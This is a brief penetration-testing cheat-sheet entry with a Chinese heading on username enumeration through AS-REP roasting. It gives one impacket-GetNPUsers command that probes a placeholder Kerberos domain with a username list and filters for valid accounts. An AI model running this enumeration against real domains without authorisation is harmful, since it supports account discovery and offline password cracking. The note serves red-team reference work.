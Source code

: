 % movement, kerberos, asreproast, impacket

# 通过ASREProast进行用户名枚举
```sh
impacket-GetNPUsers $DOMAIN/ -usersfile usernames_todo.txt | grep -v "Client not found in Kerberos database"
```